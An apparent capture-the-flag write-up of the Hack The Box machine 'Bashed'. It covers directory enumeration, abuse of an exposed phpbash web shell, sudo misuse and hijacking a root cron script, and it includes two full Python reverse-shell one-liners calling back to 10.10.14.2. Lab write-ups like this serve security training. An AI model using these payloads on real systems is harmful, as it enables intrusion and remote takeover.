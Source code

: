 # Bashed - Linux, easy (10.10.10.68)

### Enumeration
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### Obtaining User
The page at port 80 is a blog with one post that talks about **phpbash**.

So, let's first run gobuster to see how the site looks like:
```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

An interesting result is the directory **/dev**, that contains file **phpbash.php**.
This is essentially a php bash shell that we can utilize to execute commands on the target.
At this point we can obtain the user flag even if we are user www-data.

### From User to Root
First, get a reverse shell by executing on the phpbash `python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'` and setting up a netcat listener.

With `sudo -l` we can notice that the user **scriptmanager** can run anything as user root, so we can essentially do what we want by just executing `sudo -u scriptmanager <command>`.
We can a shell as user scriptmanager with `sudo -u scriptmanage /bin/bash`.
This user has access to a folder caller **/scripts**:
```
scriptmanager@bashed:/scripts$ ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4 17:03 test.py
-rw-r--r-- 1 root          root          12 Mar  7 04:09 test.txt
```

The python script simply prints somehing into the text file, which is owned by user root!
First, I tried to modify the string printed by test.py and after a few moment I noticed that the content of test.txt was changed, so the script is being executed (maybe with a cronjob?).

So, in order to get the shell as user root just overwrite test.py with a python reverse shell `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.2\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);`, and listen on your host with a netcat listener.


